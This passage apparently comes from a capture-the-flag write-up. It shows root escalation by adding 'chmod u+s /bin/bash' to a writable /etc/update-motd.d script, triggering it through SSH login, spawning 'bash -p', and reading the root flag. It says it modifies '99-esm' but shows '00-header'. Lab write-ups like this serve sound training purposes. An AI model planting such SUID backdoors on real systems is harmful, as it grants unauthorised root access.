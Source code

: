 We can modify any of these files to add either a reverse shell or create a SUID binary `, let's for example modify the `99-esm` file:

```
chmod u+s /bin/bash
```

```
cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

chmod u+s /bin/bash
```

Now, we need to log into ssh again to trigger the payload:

```
ssh james@IP

Once logged use: /bin/bash -p
```

We can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407143046.png)

There we go, we got root, let's read final flag:

```
bash-4.3# cat /root/root.txt
3c8c3d0fe758c320d158e32f68fabf4b
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407143141.png)

